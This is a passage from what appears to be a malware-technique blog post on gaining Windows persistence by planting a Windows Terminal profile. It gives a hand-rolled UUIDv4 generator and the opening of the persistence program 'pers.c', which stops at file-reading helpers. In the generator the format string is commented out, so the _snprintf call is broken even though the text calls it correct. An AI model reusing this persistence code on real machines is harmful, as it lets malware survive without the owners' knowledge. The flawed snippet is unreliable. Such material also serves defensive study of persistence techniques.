 As you can see, the logic is simple, searches for `"defaultProfile": "..."` and replaces the value. If not found, skips silently.    

Before putting all together I need function for generating a `UUIDv4` string manually using ANSI `rand()` and `QueryPerformanceCounter`. Something like this:     

```cpp
// GUID v4 (no extra libs). Sets version/variant bits properly.
static void gen_guid_v4_string(char out[64]) {
  uint32_t r[4];
  LARGE_INTEGER qpc = {0};
  QueryPerformanceCounter(&qpc);
  uint32_t seed = (uint32_t)(GetTickCount() ^ GetCurrentProcessId() ^ GetCurrentThreadId() ^
                             (uint32_t)qpc.LowPart ^ (uint32_t)qpc.HighPart);
  srand(seed);
  for (int i = 0; i < 4; ++i) r[i] = ((uint32_t)rand() << 16) ^ (uint32_t)rand();
 
  // bytes
  unsigned char b[16];
  memcpy(b+0,  &r[0], 4);
  memcpy(b+4,  &r[1], 4);
  memcpy(b+8,  &r[2], 4);
  memcpy(b+12, &r[3], 4);

  // version 4
  b[6] = (b[6] & 0x0F) | 0x40;
  // variant 10xx
  b[8] = (b[8] & 0x3F) | 0x80;
 
  // format {xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx}
  _snprintf(out, 64,
    // "{%02X%02X%02X%02X-%02X%02X-%02X%02X-%02X%02X-%02X%02X%02X%02X%02X%02X}",
    b[0],b[1],b[2],b[3], b[4],b[5], b[6],b[7], b[8],b[9], b[10],b[11],b[12],b[13],b[14],b[15]);
  out[63] = 0;
}
```

Version and variant bits are set correctly per spec.     

Finally, full source code is looks like the following (`pers.c`):     

```cpp
/*
 * pers.c
 * persistence via
 * adding a Windows Terminal profile
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2025/09/20/malware-pers-29.html
*/
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
 
#define CHANGE_DEFAULT 1
 
static int file_existsA(const char *path) {
  DWORD a = GetFileAttributesA(path);
  return (a != INVALID_FILE_ATTRIBUTES && !(a & FILE_ATTRIBUTE_DIRECTORY));
}
 
static int read_file_utf8(const char *path, unsigned char **data, size_t *len, int *had_bom) {
  FILE *f = fopen(path, "rb");
  if (!f) return 0;
```